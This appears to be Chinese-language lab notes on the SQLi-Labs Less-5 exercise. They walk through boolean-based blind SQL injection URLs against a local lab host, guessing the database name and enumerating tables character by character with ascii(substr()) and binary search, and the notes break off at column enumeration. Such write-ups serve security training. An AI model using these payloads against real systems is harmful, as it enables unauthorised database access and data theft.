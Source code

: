 ### 判断数据库第1位是否位【s】

```
http://192.168.81.135/sqli/Less-5/?id=1' and left((select database()),1)='s' --+
```

结果显示：You are in... 表示是正确的

若出错不显示

![image-20211211144524603](https://gitee.com/xxb667/img/raw/master/img/image-20211211144524603.png)

### 试出数据库中第1位的ascii码

```
http://192.168.81.135/sqli/Less-5/?id=1' and ascii(substr((select schema_name from information_schema.schemata limit 1,1),1,1)) > 1 --+
```

通过改变 大于号后面1的参数大小进行实验

当等于一个数字时，则表明这个数字对应的ascii就是对应数据库中的名

![image-20211211145954441](https://gitee.com/xxb667/img/raw/master/img/image-20211211145954441.png)

未显示结果，然后使用二分法试出结果

![image-20211211150104314](https://gitee.com/xxb667/img/raw/master/img/image-20211211150104314.png)

```
http://192.168.81.135/sqli/Less-5/?id=1' and ascii(substr((select schema_name from information_schema.schemata limit 1,1),1,1)) =98--+
```

结果为98

![image-20211211150255530](https://gitee.com/xxb667/img/raw/master/img/image-20211211150255530.png)

### 通过二分法猜解security中的表

```
http://192.168.81.135/sqli/Less-5/?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=0x7365637572697479 limit 1,1),1,1)) >1--+
```

![image-20211211150635878](https://gitee.com/xxb667/img/raw/master/img/image-20211211150635878.png)

```
http://192.168.81.135/sqli/Less-5/?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=0x7365637572697479 limit 1,1),1,1)) =114--+
```

![image-20211211150909641](https://gitee.com/xxb667/img/raw/master/img/image-20211211150909641.png)

### 二分法猜解users内的字段
